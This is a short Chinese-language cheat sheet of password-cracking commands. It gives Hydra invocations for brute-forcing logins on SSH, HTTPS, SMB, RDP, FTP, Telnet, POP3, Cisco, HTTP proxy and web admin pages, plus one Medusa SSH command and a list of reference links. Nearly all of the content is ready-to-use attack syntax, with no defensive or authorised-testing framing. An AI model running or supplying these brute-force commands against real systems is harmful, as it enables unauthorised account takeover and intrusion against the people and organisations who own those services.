 ```bash
使用hydra破解ssh的密码

hydra -L users.txt -P password.txt -vV -o ssh.log -e ns IP ssh

破解https：

# hydra -m /index.php -l username -P pass.txt IP https

破解teamspeak：

# hydra -l 用户名 -P 密码字典 -s 端口号 -vV ip teamspeak

破解cisco：

# hydra -P pass.txt IP cisco

# hydra -m cloud -P pass.txt 10.36.16.18 cisco-enable

破解smb：

# hydra -l administrator -P pass.txt IP smb

破解pop3：

# hydra -l muts -P pass.txt my.pop3.mail pop3

破解rdp：

# hydra IP rdp -l administrator -P pass.txt -V

破解http-proxy：

# hydra -l admin -P pass.txt http-proxy://10.36.16.18

破解telnet

# hydra IP telnet -l 用户 -P 密码字典 -t 32 -s 23 -e ns -f -V

破解ftp：

# hydra IP ftp -l 用户名 -P 密码字典 -t 线程(默认16) -vV

# hydra IP ftp -l 用户名 -P 密码字典 -e ns -vV

get方式提交，破解web登录：

# hydra -l 用户名 -p 密码字典 -t 线程 -vV -e ns IP http-get /admin/

# hydra -l 用户名 -p 密码字典 -t 线程 -vV -e ns -f IP http-get /admin/index.php
```

使用medusa爆破

```
medusa -M ssh -h 127.0.0.1 -F -u cqq -P /tmp/pass.txt
```


## 参考
http://www.vuln.cn/2528
http://blog.51cto.com/jzking121/1770605
https://hackertarget.com/brute-forcing-passwords-with-ncrack-hydra-and-medusa/
https://www.cnblogs.com/ch3n3y/p/5877018.html
http://foofus.net/goons/jmk/medusa/medusa.html

